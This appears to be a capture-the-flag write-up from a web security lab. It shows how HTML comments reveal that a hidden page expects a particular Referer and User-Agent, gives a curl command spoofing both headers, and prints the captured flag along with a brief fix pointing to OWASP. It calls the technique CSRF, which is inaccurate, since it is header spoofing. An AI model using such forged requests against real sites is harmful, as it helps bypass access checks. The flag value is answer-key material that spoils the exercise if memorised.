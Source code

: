 # CSRF

### Breach Exploit
In the bottom of the home page we can see a link '© BornToSec', click here.
```
http://x.x.x.x/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```

After this in the source code of the page, we can see some comments:

```html
<!-- You must come from : "https://www.nsa.gov/". -->
<!-- Let's use this browser : "ft_bornToSec". It will help you a lot. -->
```

With this informations we understand we need to change the referer and the user agent with the informations in the comments.

```
curl -H "Referer: https://www.nsa.gov/" \
-H "User-Agent: ft_bornToSec" \
http://x.x.x.x/\?page\=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f \
2> /dev/null | grep -i Flag
```

This request result to this

```html
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```
### Fix Breach
Check and validate the Referrer Header
```https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html```

### Documentation
```https://owasp.org/www-community/attacks/csrf```